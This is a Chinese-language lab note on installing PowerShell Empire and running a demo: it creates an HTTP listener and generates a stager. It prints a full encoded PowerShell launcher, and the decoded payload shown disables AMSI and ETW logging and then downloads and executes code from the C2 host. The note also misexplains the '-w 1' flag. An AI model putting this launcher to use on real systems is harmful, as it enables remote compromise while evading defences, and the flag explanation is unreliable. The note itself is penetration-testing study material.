

# Powershell Empire

> [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire.git)
>
> [powershell-empire | Kali Linux Tools --- powershell 帝国| Kali Linux 工具](https://www.kali.org/tools/powershell-empire/)
>
> [PowerShell Empire 实战入门篇 - FreeBuf 网络安全行业门户](https://www.freebuf.com/sectool/158393.html)
>
> [Empire 2.5：PowerShell 渗透测试实战指南（上篇） - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/web/165925.html)

[EmpireProject/Empire: Empire is a PowerShell and Python post-exploitation agent. (github.com)](https://github.com/EmpireProject/Empire) 是一个渗透测试框架(`post-exploitation framework`), 它包含一个 Pure Powershell 2.0 的 Windows 代理和一个 Pure Python

---

## 安装

### Github

> PS: `main` 分支反映了最新更改，可能并不总是稳定的。克隆存储库后，可以通过运行 `setup/checkout-latest-tag.sh` 脚本签出最新的稳定版本。

---

#### 1.clone 仓库本体及相关依赖仓库

```bash
git clone --recursive https://github.com/BC-SECURITY/Empire.git
```


上面的全是首次 clone 失败的 reference repo, 失败后会加入计划任务, 全 clone 一遍后会重新 clone  失败的仓库

如下即为重新 clone 成功了:


---

#### 2. 切到稳定版本并安装

```bash
cd Empire
./setup/checkout-latest-tag.sh
```


```bash
sudo ./setup/install.sh
```


中间会有个提示要不要装 `xar` 和 `bomutils` 的选项需要手动输入选择一下:


解压了一堆包:


然后开始


> 这里由于网络原因超时了↑, 然后后面恢复了:

然后应该是吧 xar 的目录列出来了:


然后提示了一堆需要 autoupdate:


----

然后似乎是在拿 gcc 编译 libxml, 报了一堆 warning, 应该不用管


----

编译 `xar`:


---

拉 `bomutils`:


---

然后会询问要不要装 `openjdk`:


---

装 C# agents 以及 modules


---

询问要不要装 `MinGW`:


得, 又是网络问题, 打个快照先, 然后重跑一遍安装脚本:


又是 xar


下面一堆目录和 warning 就不截图了, 然后接着是 OpenJDK:


然后是 `MinGW`:


最后又 package not found, enmmmmmm, 再重装一次吧:


> 得, 总是网络问题, 挂个代理再试一次吧...

----

#### (stash)如下是以往失败的安装记录, 总是会缺包

```bash
git clone --recursive https://github.com/BC-SECURITY/Empire.git
cd Empire
./setup/checkout-latest-tag.sh
sudo ./setup/install.sh 
```

> 
>
> 
>
> 
>
> 
>
> 
>
> ---
>
> 
>
> ---
>
> 
>
> 
>
> 
>
> > 这里似乎缺了一个包, 目前暂且不知道会有什么影响, 先 mark 一下

---

### Demo

> [PBSC CyberWeek 2022 PowerShell Empire Demo - YouTube](https://www.youtube.com/watch?v=wsSox64GqIU&t=635s)

---

#### 拓扑



---

#### 起 server

```>bash
powershell-empire server
```

> 
>
> 
>
> 
>
> 
>
> 

---

#### 起 Client

新开一个 bash 起 client

```bash
powershell-empire client
```

> 
>
> 
>
> 
>
> ---

---

#### 新建一个 http listener

起一个 http listener

```bash
uselistener http
```

> 

这里可以看到, 默认情况下 Host 和 BindIP 都绑定的本地, 这里保持该默认配置, 然后设置下 Port

```bash
# Set Port
set Port 9090
```

> 

```bash
# execute 以使用此 listener
execute
```

> 

```bash
# stager
usestager multi_launcher
```

> 

可以看到 Language 默认为 powershell, 这里再设置一下 listener 为刚才创建的 http listener 然后执行

```bash
set listener http
execute
```

> 
>
> > PS: [+] New agent xxx checked in 那里是后面主机上线的提示, 刚执行完 execute 是不会出现的

上线命令如下:

```powershell
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBlAHQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdAB2AGEAbAB1AGUAKAAkAE4AdQBsAGwALAAkAHQAcgB1AGUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcALgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgBHAGUAdABGAGkAZQBsAGQAKAAnAG0AXwBlAG4AYQBiAGwAZQBkACcALAAnAE4AbwBuAFAAdQBiAGwAaQBjACwASQBuAHMAdABhAG4AYwBlACcAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBUAHIAYQBjAGkAbgBnAC4AUABTAEUAdAB3AEwAbwBnAFAAcgBvAHYAaQBkAGUAcgAnACkALgBHAGUAdABGAGkAZQBsAGQAKAAnAGUAdAB3AFAAcgBvAHYAaQBkAGUAcgAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAEcAZQB0AFYAYQBsAHUAZQAoACQAbgB1AGwAbAApACwAMAApADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB4AEEARABBAEEATQBBAEEAdQBBAEQARQBBAEwAZwBBAHgAQQBDADQAQQBNAFEAQQB6AEEARABZAEEATwBnAEEANQBBAEQAQQBBAE8AUQBBAHcAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAEgAdQB2ACwAMwBnAHQAcwBjAH0AIwBfAEUAOgBmAEYAWAB3AG4AMgBiAFUAUABWAHwAaQBNAGUAMAArADUAUgAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAYwBIAEcAQQBmAGQATABaAEQAQwBFAHQATABNAEsAPQBsAEwAcQA4AFUAdwBpAEUAdQB6AHYASQBRAEQANABqADcAcAA2AEkASgBzAGgAaQBpADEARQA9ACIAKQA7ACQAZABhAHQAYQA9ACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAkAHMAZQByACsAJAB0ACkAOwAkAGkAdgA9ACQAZABhAHQAYQBbADAALgAuADMAXQA7ACQAZABhAHQAYQA9ACQAZABhAHQAYQBbADQALgAuACQAZABhAHQAYQAuAGwAZQBuAGcAdABoAF0AOwAtAGoAbwBpAG4AWwBDAGgAYQByAFsAXQBdACgAJgAgACQAUgAgACQAZABhAHQAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA
```

- `powershell`：表示调用 PowerShell 程序。
- `-noP`：表示不加载配置文件。包括启动时加载的个人配置文件（Profile）和系统级别的配置文件。使用此参数可以在启动 PowerShell 时跳过配置文件的加载，加快启动速度。
- `-sta`：`Single Threaded Apartment`表示使用单线程的会话模式。
- `-w 1`：等待指定的时间（以秒为单位）后自动退出 PowerShell。在这里，`-w 1` 表示等待 1 秒后自动退出 PowerShell。
- `-enc`：表示后面跟着的是一个 Base64 编码的字符串，需要解码后执行。

> ```base64
> SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAJABSAGUAZgA9AFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAOwAkAFIAZQBmAC4ARwBlAHQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAdAB2AGEAbAB1AGUAKAAkAE4AdQBsAGwALAAkAHQAcgB1AGUAKQA7AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBFAHYAZQBuAHQAaQBuAGcALgBFAHYAZQBuAHQAUAByAG8AdgBpAGQAZQByAF0ALgBHAGUAdABGAGkAZQBsAGQAKAAnAG0AXwBlAG4AYQBiAGwAZQBkACcALAAnAE4AbwBuAFAAdQBiAGwAaQBjACwASQBuAHMAdABhAG4AYwBlACcAKQAuAFMAZQB0AFYAYQBsAHUAZQAoAFsAUgBlAGYAXQAuAEEAcwBzAGUAbQBiAGwAeQAuAEcAZQB0AFQAeQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBUAHIAYQBjAGkAbgBnAC4AUABTAEUAdAB3AEwAbwBnAFAAcgBvAHYAaQBkAGUAcgAnACkALgBHAGUAdABGAGkAZQBsAGQAKAAnAGUAdAB3AFAAcgBvAHYAaQBkAGUAcgAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAEcAZQB0AFYAYQBsAHUAZQAoACQAbgB1AGwAbAApACwAMAApADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB4AEEARABBAEEATQBBAEEAdQBBAEQARQBBAEwAZwBBAHgAQQBDADQAQQBNAFEAQQB6AEEARABZAEEATwBnAEEANQBBAEQAQQBBAE8AUQBBAHcAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAGwAbwBnAGkAbgAvAHAAcgBvAGMAZQBzAHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAEgAdQB2ACwAMwBnAHQAcwBjAH0AIwBfAEUAOgBmAEYAWAB3AG4AMgBiAFUAUABWAHwAaQBNAGUAMAArADUAUgAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAYwBIAEcAQQBmAGQATABaAEQAQwBFAHQATABNAEsAPQBsAEwAcQA4AFUAdwBpAEUAdQB6AHYASQBRAEQANABqADcAcAA2AEkASgBzAGgAaQBpADEARQA9ACIAKQA7ACQAZABhAHQAYQA9ACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAkAHMAZQByACsAJAB0ACkAOwAkAGkAdgA9ACQAZABhAHQAYQBbADAALgAuADMAXQA7ACQAZABhAHQAYQA9ACQAZABhAHQAYQBbADQALgAuACQAZABhAHQAYQAuAGwAZQBuAGcAdABoAF0AOwAtAGoAbwBpAG4AWwBDAGgAYQByAFsAXQBdACgAJgAgACQAUgAgACQAZABhAHQAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA
> ```
>
> 上述 base64 解码后得到:
>
> ```
> "I\u0000f\u0000(\u0000$\u0000P\u0000S\u0000V\u0000e\u0000r\u0000s\u0000i\u0000o\u0000n\u0000T\u0000a\u0000b\u0000l\u0000e\u0000.\u0000P\u0000S\u0000V\u0000e\u0000r\u0000s\u0000i\u0000o\u0000n\u0000.\u0000M\u0000a\u0000j\u0000o\u0000r\u0000 \u0000-\u0000g\u0000e\u0000 \u00003\u0000)\u0000{\u0000$\u0000R\u0000e\u0000f\u0000=\u0000[\u0000R\u0000e\u0000f\u0000]\u0000.\u0000A\u0000s\u0000s\u0000e\u0000m\u0000b\u0000l\u0000y\u0000.\u0000G\u0000e\u0000t\u0000T\u0000y\u0000p\u0000e\u0000(\u0000'\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000M\u0000a\u0000n\u0000a\u0000g\u0000e\u0000m\u0000e\u0000n\u0000t\u0000.\u0000A\u0000u\u0000t\u0000o\u0000m\u0000a\u0000t\u0000i\u0000o\u0000n\u0000.\u0000A\u0000m\u0000s\u0000i\u0000U\u0000t\u0000i\u0000l\u0000s\u0000'\u0000)\u0000;\u0000$\u0000R\u0000e\u0000f\u0000.\u0000G\u0000e\u0000t\u0000F\u0000i\u0000e\u0000l\u0000d\u0000(\u0000'\u0000a\u0000m\u0000s\u0000i\u0000I\u0000n\u0000i\u0000t\u0000F\u0000a\u0000i\u0000l\u0000e\u0000d\u0000'\u0000,\u0000'\u0000N\u0000o\u0000n\u0000P\u0000u\u0000b\u0000l\u0000i\u0000c\u0000,\u0000S\u0000t\u0000a\u0000t\u0000i\u0000c\u0000'\u0000)\u0000.\u0000S\u0000e\u0000t\u0000v\u0000a\u0000l\u0000u\u0000e\u0000(\u0000$\u0000N\u0000u\u0000l\u0000l\u0000,\u0000$\u0000t\u0000r\u0000u\u0000e\u0000)\u0000;\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000D\u0000i\u0000a\u0000g\u0000n\u0000o\u0000s\u0000t\u0000i\u0000c\u0000s\u0000.\u0000E\u0000v\u0000e\u0000n\u0000t\u0000i\u0000n\u0000g\u0000.\u0000E\u0000v\u0000e\u0000n\u0000t\u0000P\u0000r\u0000o\u0000v\u0000i\u0000d\u0000e\u0000r\u0000]\u0000.\u0000G\u0000e\u0000t\u0000F\u0000i\u0000e\u0000l\u0000d\u0000(\u0000'\u0000m\u0000_\u0000e\u0000n\u0000a\u0000b\u0000l\u0000e\u0000d\u0000'\u0000,\u0000'\u0000N\u0000o\u0000n\u0000P\u0000u\u0000b\u0000l\u0000i\u0000c\u0000,\u0000I\u0000n\u0000s\u0000t\u0000a\u0000n\u0000c\u0000e\u0000'\u0000)\u0000.\u0000S\u0000e\u0000t\u0000V\u0000a\u0000l\u0000u\u0000e\u0000(\u0000[\u0000R\u0000e\u0000f\u0000]\u0000.\u0000A\u0000s\u0000s\u0000e\u0000m\u0000b\u0000l\u0000y\u0000.\u0000G\u0000e\u0000t\u0000T\u0000y\u0000p\u0000e\u0000(\u0000'\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000M\u0000a\u0000n\u0000a\u0000g\u0000e\u0000m\u0000e\u0000n\u0000t\u0000.\u0000A\u0000u\u0000t\u0000o\u0000m\u0000a\u0000t\u0000i\u0000o\u0000n\u0000.\u0000T\u0000r\u0000a\u0000c\u0000i\u0000n\u0000g\u0000.\u0000P\u0000S\u0000E\u0000t\u0000w\u0000L\u0000o\u0000g\u0000P\u0000r\u0000o\u0000v\u0000i\u0000d\u0000e\u0000r\u0000'\u0000)\u0000.\u0000G\u0000e\u0000t\u0000F\u0000i\u0000e\u0000l\u0000d\u0000(\u0000'\u0000e\u0000t\u0000w\u0000P\u0000r\u0000o\u0000v\u0000i\u0000d\u0000e\u0000r\u0000'\u0000,\u0000'\u0000N\u0000o\u0000n\u0000P\u0000u\u0000b\u0000l\u0000i\u0000c\u0000,\u0000S\u0000t\u0000a\u0000t\u0000i\u0000c\u0000'\u0000)\u0000.\u0000G\u0000e\u0000t\u0000V\u0000a\u0000l\u0000u\u0000e\u0000(\u0000$\u0000n\u0000u\u0000l\u0000l\u0000)\u0000,\u00000\u0000)\u0000;\u0000}\u0000;\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000S\u0000e\u0000r\u0000v\u0000i\u0000c\u0000e\u0000P\u0000o\u0000i\u0000n\u0000t\u0000M\u0000a\u0000n\u0000a\u0000g\u0000e\u0000r\u0000]\u0000:\u0000:\u0000E\u0000x\u0000p\u0000e\u0000c\u0000t\u00001\u00000\u00000\u0000C\u0000o\u0000n\u0000t\u0000i\u0000n\u0000u\u0000e\u0000=\u00000\u0000;\u0000$\u0000w\u0000c\u0000=\u0000N\u0000e\u0000w\u0000-\u0000O\u0000b\u0000j\u0000e\u0000c\u0000t\u0000 \u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000W\u0000e\u0000b\u0000C\u0000l\u0000i\u0000e\u0000n\u0000t\u0000;\u0000$\u0000u\u0000=\u0000'\u0000M\u0000o\u0000z\u0000i\u0000l\u0000l\u0000a\u0000/\u00005\u0000.\u00000\u0000 \u0000(\u0000W\u0000i\u0000n\u0000d\u0000o\u0000w\u0000s\u0000 \u0000N\u0000T\u0000 \u00006\u0000.\u00001\u0000;\u0000 \u0000W\u0000O\u0000W\u00006\u00004\u0000;\u0000 \u0000T\u0000r\u0000i\u0000d\u0000e\u0000n\u0000t\u0000/\u00007\u0000.\u00000\u0000;\u0000 \u0000r\u0000v\u0000:\u00001\u00001\u0000.\u00000\u0000)\u0000 \u0000l\u0000i\u0000k\u0000e\u0000 \u0000G\u0000e\u0000c\u0000k\u0000o\u0000'\u0000;\u0000$\u0000s\u0000e\u0000r\u0000=\u0000$\u0000(\u0000[\u0000T\u0000e\u0000x\u0000t\u0000.\u0000E\u0000n\u0000c\u0000o\u0000d\u0000i\u0000n\u0000g\u0000]\u0000:\u0000:\u0000U\u0000n\u0000i\u0000c\u0000o\u0000d\u0000e\u0000.\u0000G\u0000e\u0000t\u0000S\u0000t\u0000r\u0000i\u0000n\u0000g\u0000(\u0000[\u0000C\u0000o\u0000n\u0000v\u0000e\u0000r\u0000t\u0000]\u0000:\u0000:\u0000F\u0000r\u0000o\u0000m\u0000B\u0000a\u0000s\u0000e\u00006\u00004\u0000S\u0000t\u0000r\u0000i\u0000n\u0000g\u0000(\u0000'\u0000a\u0000A\u0000B\u00000\u0000A\u0000H\u0000Q\u0000A\u0000c\u0000A\u0000A\u00006\u0000A\u0000C\u00008\u0000A\u0000L\u0000w\u0000A\u0000x\u0000A\u0000D\u0000A\u0000A\u0000M\u0000A\u0000A\u0000u\u0000A\u0000D\u0000E\u0000A\u0000L\u0000g\u0000A\u0000x\u0000A\u0000C\u00004\u0000A\u0000M\u0000Q\u0000A\u0000z\u0000A\u0000D\u0000Y\u0000A\u0000O\u0000g\u0000A\u00005\u0000A\u0000D\u0000A\u0000A\u0000O\u0000Q\u0000A\u0000w\u0000A\u0000A\u0000=\u0000=\u0000'\u0000)\u0000)\u0000)\u0000;\u0000$\u0000t\u0000=\u0000'\u0000/\u0000l\u0000o\u0000g\u0000i\u0000n\u0000/\u0000p\u0000r\u0000o\u0000c\u0000e\u0000s\u0000s\u0000.\u0000p\u0000h\u0000p\u0000'\u0000;\u0000$\u0000w\u0000c\u0000.\u0000H\u0000e\u0000a\u0000d\u0000e\u0000r\u0000s\u0000.\u0000A\u0000d\u0000d\u0000(\u0000'\u0000U\u0000s\u0000e\u0000r\u0000-\u0000A\u0000g\u0000e\u0000n\u0000t\u0000'\u0000,\u0000$\u0000u\u0000)\u0000;\u0000$\u0000w\u0000c\u0000.\u0000P\u0000r\u0000o\u0000x\u0000y\u0000=\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000W\u0000e\u0000b\u0000R\u0000e\u0000q\u0000u\u0000e\u0000s\u0000t\u0000]\u0000:\u0000:\u0000D\u0000e\u0000f\u0000a\u0000u\u0000l\u0000t\u0000W\u0000e\u0000b\u0000P\u0000r\u0000o\u0000x\u0000y\u0000;\u0000$\u0000w\u0000c\u0000.\u0000P\u0000r\u0000o\u0000x\u0000y\u0000.\u0000C\u0000r\u0000e\u0000d\u0000e\u0000n\u0000t\u0000i\u0000a\u0000l\u0000s\u0000 \u0000=\u0000 \u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000C\u0000r\u0000e\u0000d\u0000e\u0000n\u0000t\u0000i\u0000a\u0000l\u0000C\u0000a\u0000c\u0000h\u0000e\u0000]\u0000:\u0000:\u0000D\u0000e\u0000f\u0000a\u0000u\u0000l\u0000t\u0000N\u0000e\u0000t\u0000w\u0000o\u0000r\u0000k\u0000C\u0000r\u0000e\u0000d\u0000e\u0000n\u0000t\u0000i\u0000a\u0000l\u0000s\u0000;\u0000$\u0000S\u0000c\u0000r\u0000i\u0000p\u0000t\u0000:\u0000P\u0000r\u0000o\u0000x\u0000y\u0000 \u0000=\u0000 \u0000$\u0000w\u0000c\u0000.\u0000P\u0000r\u0000o\u0000x\u0000y\u0000;\u0000$\u0000K\u0000=\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000T\u0000e\u0000x\u0000t\u0000.\u0000E\u0000n\u0000c\u0000o\u0000d\u0000i\u0000n\u0000g\u0000]\u0000:\u0000:\u0000A\u0000S\u0000C\u0000I\u0000I\u0000.\u0000G\u0000e\u0000t\u0000B\u0000y\u0000t\u0000e\u0000s\u0000(\u0000'\u0000H\u0000u\u0000v\u0000,\u00003\u0000g\u0000t\u0000s\u0000c\u0000}\u0000#\u0000_\u0000E\u0000:\u0000f\u0000F\u0000X\u0000w\u0000n\u00002\u0000b\u0000U\u0000P\u0000V\u0000|\u0000i\u0000M\u0000e\u00000\u0000+\u00005\u0000R\u0000'\u0000)\u0000;\u0000$\u0000R\u0000=\u0000{\u0000$\u0000D\u0000,\u0000$\u0000K\u0000=\u0000$\u0000A\u0000r\u0000g\u0000s\u0000;\u0000$\u0000S\u0000=\u00000\u0000.\u0000.\u00002\u00005\u00005\u0000;\u00000\u0000.\u0000.\u00002\u00005\u00005\u0000|\u0000%\u0000{\u0000$\u0000J\u0000=\u0000(\u0000$\u0000J\u0000+\u0000$\u0000S\u0000[\u0000$\u0000_\u0000]\u0000+\u0000$\u0000K\u0000[\u0000$\u0000_\u0000%\u0000$\u0000K\u0000.\u0000C\u0000o\u0000u\u0000n\u0000t\u0000]\u0000)\u0000%\u00002\u00005\u00006\u0000;\u0000$\u0000S\u0000[\u0000$\u0000_\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000J\u0000]\u0000=\u0000$\u0000S\u0000[\u0000$\u0000J\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000_\u0000]\u0000}\u0000;\u0000$\u0000D\u0000|\u0000%\u0000{\u0000$\u0000I\u0000=\u0000(\u0000$\u0000I\u0000+\u00001\u0000)\u0000%\u00002\u00005\u00006\u0000;\u0000$\u0000H\u0000=\u0000(\u0000$\u0000H\u0000+\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000)\u0000%\u00002\u00005\u00006\u0000;\u0000$\u0000S\u0000[\